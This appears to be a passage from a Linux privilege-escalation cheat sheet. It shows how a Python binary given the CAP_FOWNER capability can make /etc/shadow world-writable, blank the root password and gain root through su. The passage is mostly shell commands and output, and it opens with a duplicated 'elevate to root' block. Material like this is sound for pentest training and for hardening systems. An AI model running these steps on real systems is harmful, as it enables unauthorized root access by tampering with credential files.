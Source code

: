 Elavate to the root user:

```shell
user@pwn:~$ vim /etc/passwd
user@pwn:~$ su root
root@pwn:/home/user# exit
exit
user@pwn:~$ cat /etc/passwd | grep ^root
root:x:0:0:root:/root:/bin/bash # With the x
user@pwn:~$
```

## Python Example

The capability `CAP_FOWNER` allows us to **change the permission of a file**.

```shell
user@pwn:~$ sudo /usr/sbin/setcap cap_fowner+ep ./python3
user@pwn:~$ getcap -r ./python3
./python3 = cap_fowner+ep
```

The original `/etc/shadow` permissions are the following:

```shell
user@pwn:~$ ls -la /etc/shadow
-rw-r----- 1 root shadow 1610 oct 25 15:44 /etc/shadow
```

If Python has this capability we can modify the permissions of the shadow file, then change the root password, and as a result, elevate privileges:

```shell
./python3 -c 'import os;os.chmod("/etc/shadow",0o666)'
```

Change the root password:

```shell
user@pwn:~$ ls -la /etc/shadow
-rw-rw-rw- 1 root shadow 1610 oct 25 15:44 /etc/shadow
user@pwn:~$ vim /etc/shadow
user@pwn:~$ cat /etc/passwd | grep ^root
root::0:0:root:/root:/bin/bash # Doesn't matter if it has the x
user@pwn:~$ cat /etc/shadow | grep ^root
root::18918:0:99999:7:::
```

Elevate to the root user:

```shell
user@pwn:~$ vim /etc/passwd
user@pwn:~$ su root
root@pwn:/home/user# exit
exit
user@pwn:~$ cat /etc/passwd | grep ^root
root:x:0:0:root:/root:/bin/bash # With the x
user@pwn:~$
```
